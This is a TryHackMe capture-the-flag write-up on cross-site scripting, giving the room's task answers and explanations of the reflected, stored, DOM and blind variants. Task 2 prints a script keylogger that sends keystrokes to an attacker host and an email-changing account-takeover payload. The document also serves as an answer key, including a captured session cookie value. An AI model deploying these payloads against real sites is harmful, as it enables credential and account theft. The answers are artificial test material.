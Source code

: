 ![Background](https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/03376575e888fd097280c51469c29fbc.png)

<img src="https://tryhackme-images.s3.amazonaws.com/room-icons/c1c509a263e7a42bece2f0b77fd1ba1b.png" width="200" height="200" align="left">

*[XSS]: Cross-Site Scripting
# Cross-Site Scripting

**Learn how to detect and exploit XSS vulnerabilities, giving you control of other visitor's browsers.**

**If you want to check out the room [click here](https://tryhackme.com/room/xssgi)**

---

<br>

**Table of Contents**

- [Cross-Site Scripting](#cross-site-scripting)
  - [Task 1 Room Brief](#task-1-room-brief)
  - [Task 2 XSS Payloads](#task-2-xss-payloads)
  - [Task 3 Relfected XSS](#task-3-relfected-xss)
  - [Task 4 Stored XSS](#task-4-stored-xss)
  - [Task 5 DOM Based XSS](#task-5-dom-based-xss)
  - [Task 6 Blind XSS](#task-6-blind-xss)
  - [Task 7 Perfecting your payload](#task-7-perfecting-your-payload)
  - [Task 8 Practical Example (Blind XSS)](#task-8-practical-example-blind-xss)

## Task 1 Room Brief

**What does XSS stand for?**

    Cross-Site Scripting

## Task 2 XSS Payloads

**Which document property could contain the user's session token?**

    document.cookie

**Which JavaScript method is often used as a Proof Of Concept?**

    alert

btoa()

: Is a function that accepts javascript string as an parameter and base64 encodes it in order to make it safe for a browser to transport. This along with the `document.cookie` parameter an attacker can steal a victims cookie session in order to login as that user without knowing the credentials.

!!! note
    Javascript can be used in order to set a keylogger on the victim site thus giving the attacker the chance to passively gather user keystrokes with the goal of obtaining credentials. An example line for a XSS keylogger may look like this:

```js
<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>
```

Business Logic attacks

: These are flaws in the original design and implementation of the web app that allow an attaker to be able to exectue unintended behavior. This can be used to essentially put the attacker as a Man In The Middle between the user and the application itself. An example of this in terms of XSS would be as follows:

```js
<script>user.changeEmail('attacker@hacker.thm');</script>
```

Where the `user.changeEmail()` would be a function within the application that would enable the attaker to change the official email of the site to one of their control thus potentially posing as a help desk or customer support for the user and social engineering the victim into divulging information/credentials giving access over the victims account.

## Task 3 Relfected XSS

**Where in an URL is a good place to test for reflected XSS?**

    Parameters

Although there are different types of XSS attacks, **Reflected** XSS occurs when a malicious script is, as the name suggests, reflected off a web app to the victim browser through a link in order to activate the attack. This can be used to acquire the victims session cookie/token, this type of behavior can be seen when a web app processes the data in an unsafe way and reflects the parameter in it's response back to the user as shown below.

Original unsafe URL:

```http
https://insecure-website.com/search?term=gift

The response from the web app to this link would look like this:

<p>You searched for: gift</p>
```

Now, when a malicious actor injects their script into the parameter field it can look like this:

```http
https://insecure-website.com/search?term=<script>/*+Bad+stuff+here...+*/</script>

The response from the web app to this link would look like this:

<p>You searched for: <script>/* Bad stuff here... */</script></p>
```

!!! note
     This sort of attack can be performed in numerous ways and creativity is key but it vulnerability will need modification depending on what sort of protection is in place on the web app itself so keep a lookout for any details that might give it away.

## Task 4 Stored XSS

**How are stored XSS payloads usually stored on a website?**

    Database

Stored XSS
: This type of attack is capable of stealing a victims cookie session via database poisoning in order to obtain the victims account credentials or potentially spread malware onto whoever visits the site with javascript enabled in their browser which sadly is the mayority of users.

## Task 5 DOM Based XSS

**What unsafe JavaScript method is good to look for in source code?**

    eval()

eval()
: The eval function is mostly used to evaluate strings and expressions according to what sort of argument the user inputs into the function. An alternative to eval is `Function()` . Just like `eval()` , `Function()` takes some expression as a string for execution, except, rather than outputting the result directly, it returns an anonymous function to you that you can call. **It is highly suggested not to use the eval function as it is insecure and can lead to XSS attacks.**

## Task 6 Blind XSS

**What tool can you use to test for Blind XSS?**

    xsshunter

XSSHunter
: Is a tool that will automatically capture cookies, URLs, page contents and more. This works by hosting specialized XSS probes which, upon firing, scan the page and send information about the vulnerable page to the XSS Hunter service. You can visit the [xsshunter's](https://xsshunter.com/features) site to learn more about it and sign up if you so wish.

**What type of XSS is very similar to Blind XSS?**

    Stored XSS

!!! note
     Blind XSS is similar to a stored XSS (which we covered in task 4) in that your payload gets stored on the website for another user to view, but in this instance, you can't see the payload working or be able to test it against yourself first.

## Task 7 Perfecting your payload

**What is the flag you received from level six?**

    ❗ This question cannot be given in accordance with TryHackMe's rules for submitting writeups for the room

## Task 8 Practical Example (Blind XSS)

**What is the value of the staff-session cookie?**

    4AB305E55955197693F01D6F8FD2D321
